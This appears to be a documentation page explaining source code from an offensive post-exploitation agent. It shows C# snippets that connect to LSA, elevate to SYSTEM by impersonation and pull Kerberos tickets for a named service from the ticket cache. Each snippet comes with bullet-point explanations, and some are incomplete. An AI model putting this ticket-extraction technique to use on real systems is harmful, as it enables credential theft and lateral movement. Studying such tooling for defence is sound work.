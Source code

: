 #### 2. Ticket Extraction Process (C#)
```csharp
// From KerberosHelpers.cs - ExtractTicket method
internal static (KerberosTicket?, string) ExtractTicket(LUID targetLuid, string targetName)
{
    targetName = targetName.Trim();
    (HANDLE lsaHandle, uint authPackage, IEnumerable<LUID> _, string error) = InitKerberosConnectionAndSessionInfo();
    
    if(Agent.GetIdentityManager().GetIntegrityLevel() is <= IntegrityLevel.MediumIntegrity)
    {
        DebugHelp.DebugWriteLine("Not high integrity, setting target luid to null");
        targetLuid = new LUID();
    }
    
    var ticket = GetTicketCache(lsaHandle, authPackage, targetLuid)
        .FirstOrDefault(x => x.ServerName.Contains(targetName));
    
    if(ticket is null)
    {
        return (null, $"Failed to find ticket for {targetName}");
    }
}
```
- Trims service name parameter
- Initializes LSA connection and Kerberos authentication package
- Clears target LUID for non-elevated contexts
- Searches ticket cache for matching service name

#### 3. LSA Connection and Package Resolution
```csharp
// From KerberosHelpers.cs
private static HANDLE GetLsaHandleUntrusted(bool elevateToSystem = true)
{
    if(Agent.GetIdentityManager().GetIntegrityLevel() is IntegrityLevel.HighIntegrity && elevateToSystem)
    {
        (elevated, _systemHandle) = Agent.GetIdentityManager().GetSystem();
        createdArtifacts.Add(Artifact.PrivilegeEscalation("SYSTEM"));
        
        if (elevated)
        {
            var originalUser = WindowsIdentity.Impersonate(_systemHandle);
            WindowsAPI.LsaConnectUntrustedDelegate(out lsaHandle);
            originalUser.Undo();
            createdArtifacts.Add(Artifact.WindowsAPIInvoke("LsaConnectUntrusted"));
        }
    }
    else
    {
        WindowsAPI.LsaConnectUntrustedDelegate(out lsaHandle);
        createdArtifacts.Add(Artifact.WindowsAPIInvoke("LsaConnectUntrusted"));
    }
    return lsaHandle;
}
```
- Establishes LSA connection using `LsaConnectUntrusted`
- Elevates to SYSTEM for high integrity contexts when needed
- Looks up Kerberos authentication package
- Generates artifacts for API calls
